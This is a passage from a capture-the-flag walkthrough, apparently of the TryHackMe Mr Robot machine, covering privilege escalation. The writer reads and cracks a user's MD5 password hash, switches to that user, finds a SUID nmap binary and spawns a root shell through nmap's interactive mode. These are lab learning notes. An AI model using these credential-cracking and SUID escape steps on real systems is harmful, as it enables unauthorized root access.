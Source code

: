 ## Privilege Escalation

### MD5 Hash Cracking

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/tryhackme/mrrobot)

At folder home, I saw that the user in the system is `robot`, in the home folder, there is file `password.raw-md5`.

```
daemon@linux:/$ ls /home
robot
daemon@linux:/$ ls /home/robot/
key-2-of-3.txt  password.raw-md5
daemon@linux:/home/robot$ cat password.raw-md5 
robot:c3fcd3d76192e4007dfb496cca67e13b
```

File `password.raw-md5` is the md5 hash password for user `robot`. Let's crack it.

At `https://md5.gromweb.com/?md5=c3fcd3d76192e4007dfb496cca67e13b` reversed the hash to string `abcdefghijklmnopqrstuvwxyz`.

![](images/6.png)

Using knowed password, I successfully login to robot account.

```
robot:c3fcd3d76192e4007dfb496cca67e13b
daemon@linux:/home/robot$ su robot
Password: 
robot@linux:~$ id
uid=1002(robot) gid=1002(robot) groups=1002(robot)
```

### Binaries That AutoElevate

After local enum, I find `nmap` have suid can run as the owner and the owner is `root`.

```
robot@linux:/tmp$ find / -perm -u=s -type f 2>/dev/null
<snip>
/usr/local/bin/nmap
<snip>
```

Run nmap in `interactive mode` and get the root shell.

```
robot@linux:/tmp$ /usr/local/bin/nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !/bin/sh
# whoami
root
```